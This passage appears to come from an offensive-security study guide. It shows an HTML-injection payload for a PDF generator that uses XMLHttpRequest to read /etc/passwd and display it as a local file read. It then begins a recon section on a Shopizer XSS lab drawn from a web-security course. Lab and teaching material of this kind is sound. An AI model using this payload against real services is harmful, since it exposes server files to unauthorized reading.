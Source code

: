 Following [this](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f) and [this](https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/) post that use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest), we can try to achieve LFI (Figure 19).

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){  
document.write(this.responseText)};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

<figure><img src="../../../.gitbook/assets/ssrf_to_lfi_3.png" alt=""><figcaption><p>Figure 19: HTML Injection to LFI.</p></figcaption></figure>

## Shopizer

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

### Recon

In Shopizer's _Products_ > _Handbags_ tab, we notice the `/ref=c:2` string which resembles a URL parameter but it is missing the `?`. Inspecting the page's source code, we see that this string is used in multiple URIs as well as in the `loadCategoryProducts()` method (Figure 12).

<figure><img src="../../../.gitbook/assets/web_xss_shopizer_1.png" alt=""><figcaption><p>Figure 12: Inspecting the application's source code.</p></figcaption></figure>
